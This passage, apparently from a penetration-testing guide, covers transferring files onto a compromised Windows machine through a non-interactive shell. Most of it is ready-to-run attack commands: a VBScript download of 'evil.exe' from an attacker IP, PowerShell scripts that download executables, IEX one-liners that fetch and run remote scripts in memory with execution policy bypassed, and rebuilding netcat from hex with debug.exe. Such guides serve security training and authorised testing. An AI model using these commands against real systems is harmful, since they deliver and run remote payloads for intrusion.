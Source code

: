 You then execute the script like this:

```text
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

## PowerShell

### Using echo to write a script which will download a file

This is how we can download a file using PowerShell. Remember since we only have a non-interactive shell we cannot start PowerShell.exe, because our shell can't handle that. But we can get around that by creating a PowerShell-script and then executing the script:

    ```text
    echo $webclient = New-Object System.Net.WebClient >>wget.ps1
    echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
    echo $file = "output-file.exe" >>wget.ps1
    echo $webclient.DownloadFile($url,$file) >>wget.ps1
    ```

Now we invoke it with this crazy syntax:

    `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

### Adding support for a proxy

    echo $browser = New-Object System.Net.WebClient; >>wgproxy.ps1
    echo $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; >> wgproxy.ps1
    echo IEX($browser.DownloadString('https://server/script.ps1')); >>wgproxy.ps1

    `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wgproxy.ps1`

### Download an execute a powershell script in memory

**Method 1:**

    `powershell.exe IEX(New-Object Net.Webclient).DownloadString(“http://SERVER/script.ps1”)`

**Method 2:**

    `cmd /c powershell.exe -c IEX(New-Object Net.Webclient).DownloadString(“http://SERVER/script.ps1”)`


## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the `debug.exe` program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like `netcat`. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with `debug.exe`.

`Debug.exe` can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that:

```text
upx -9 nc.exe
```

Now it only weights 29 kb. Perfect. So now let's disassemble it:

```text
wine exe2bat.exe nc.exe nc.txt
```

Now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe
